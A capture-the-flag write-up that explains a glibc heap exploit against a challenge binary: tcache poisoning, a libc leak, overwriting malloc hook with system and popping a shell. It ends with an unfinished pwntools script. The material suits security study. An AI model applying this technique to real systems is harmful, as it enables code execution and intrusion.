 Choose a song of size 0x20, will be served from the 0x30 bin.

0x40 bin -> writeable area -> 0x0

We now have full control over what the 0x40 bin will think is a tcache chunk. Let's write the malloc hook address to it.

0x40 bin -> writeable area -> malloc hook

Choose a song of size 0x30, will be served from 0x40 bin. Now malloc hook is at top of tcache! Choose a song of size 0x30 again, and we'll get an arbitrary write at malloc hook. Let's write system to malloc hook.

Ok, so now we want to call malloc on a /bin/sh pointer. How? We need to input size as a number.

Malloc will call malloc hook on the size.

What we can do is send a size number that is actually a disguised /bin/sh pointer. Malloc will then call system on this number, actually calling system("/bin/sh")

NOTE: The final step didn't work locally for me, but it works remotely.
Summarised plan:
1. House of force to get heap chunk pointing to tcache_perthread_struct
2. Put count of 2 inside of 0x20 bin. Set the top of the bin to point to puts@got for example
3. Put count of 1 inside 0x30 bin and 2 inside the 0x40 bin. Point them towards the same place, some writeable segment inside of the binary.
3. Choose a song with length 0. It'll allocate in the 0x20 bin but also fgets 0 will give us no input so no sigsev should occur
4. Top of tcache will have pointer to puts@GLIBC
5. Choose another song with length 0. Returned pointer should be puts@GLIBC. Again, fgets 0 gives no input, no sigsev
6. Sing song, that should print the libc pointer
7.  Create a 0x20 length song, will be allocated at the writeable segment. It will ALSO be at the top of the 0x40 tcache, allowing for poisoning. ( see step 3). Set next pointer to malloc hook
8. Create 0x30 length song. Create another. This will be at malloc hook, write system to it
9. Choose a song where the song title size represents the pointer to /bin/sh in libc

The below exploit script does everything up to and including overwriting malloc hook with system. It also prints the /bin/sh pointer as decimal to you, then opens an interactive prompt. From there, manually choose a song, input the number, and a shell will be popped.

We can cat `/pwn/flag.txt` to get the flag.

Script:
```python
#!/usr/bin/env python3

from pwn import *
PARTYSIZE = 0
e = ELF("spb")
libc = ELF("libc-2.27.so")
context.binary = e
def chooseSong(length, title=b'',dodata=True):
    p.sendlineafter('> ', str(1))
    p.sendlineafter('> ', str(length))
    if dodata:
        p.sendlineafter('> ', title)
def getDrink(member, drink):
    p.sendlineafter('> ', str(2))
    p.sendlineafter('> ', str(member))
    p.sendlineafter('> ', str(drink))

def singSong():
    p.sendlineafter('> ', str(3))
    p.recvuntil('0x')
    ptr = int(p.recvuntil(' '), 16)
    return ptr
def twoscomplement(num):
  if num >= 0:
```
